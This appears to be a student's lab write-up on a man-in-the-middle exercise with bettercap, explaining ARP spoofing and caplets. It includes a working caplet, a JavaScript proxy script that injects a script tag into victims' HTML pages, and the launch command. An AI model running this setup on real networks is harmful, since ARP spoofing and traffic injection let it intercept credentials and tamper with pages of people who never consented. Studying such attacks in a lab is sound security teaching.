




# Man in the Middle - bettercap
## Security questions
### explain why bettercap was able to capture the ftp credentials
Bettercap makes a ARP Spoofing Attack, also known as ARP Cache Poisoning
It sends ARP responses for Attackers MAC and the targets IP. Now the traffic is send to attackers ethernet card and go througth the MITM Proxy.




### do a research for bettercap and find out what caplets are
These are addional scripts/capabilities for bettercap. This can be used to automate attacks, like a Metasploit .rc file.
### read these examples: https://www.cyberpunk.rsbettercap-usage-examples-overview-custom-setup-caplets
### please add a screenshot of your MitM attack (proof your setup)

```javascript
#inject.js
function onLoad() {
    log("BeefInject loaded.");
}


function onResponse(req, res) {
    if(res.ContentType.indexOf('text/html') == 0) {
        var body = res.ReadBody();
        if(body.indexOf('</head>') != -1) {
            log("BeefInject loaded.");
            res.Body = body.replace(
                '</head>',
                '<script type="text/javascript">alert("Gotcha")</script></head>'
            );
        }
    }
}
```
inject.cap
```bash
set http.proxy.script jsinject.js
set https.proxy.script jsinject.js
http.proxy on
https.proxy on
sleep 1
arp.spoof on
```

Start with
```bash
bettercap -iface eth0 -caplet jsinject.cap
```
Windows 10 verification


Linux Verification
